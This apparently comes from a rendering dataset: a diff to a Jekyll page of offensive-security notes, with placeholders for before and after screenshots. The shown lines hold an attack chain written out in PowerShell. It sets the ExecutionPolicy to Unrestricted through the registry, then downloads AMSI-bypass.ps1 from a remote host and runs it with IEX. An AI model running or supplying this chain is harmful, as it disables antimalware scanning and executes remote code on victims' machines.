

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from offensive-notes.md, in a window 1280 px wide and 900 px high, scrolled down 2355 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update offensive-notes.md

```diff
--- a/offensive-notes.md
+++ b/offensive-notes.md
@@ -132,6 +132,9 @@ $parameters=@("arg1", "arg2")
 First, the payload script would change PowerShell’s running configuration so the current user would be allowed to execute PowerShell scripts with no restrictions, using the following command:
 
 New-ItemProperty -Path 'HKCU:Software\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell' -Name 'ExecutionPolicy' -Value "Unrestricted" -PropertyType String -Force
+
+Secondly the script will download and execute an AMSI patch bypass
+
 $wr = [System.NET.webRequest]::Create('http://192.168.1.125/AMSI-bypass.ps1')
 $r = $wr.GetResponse()
 IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
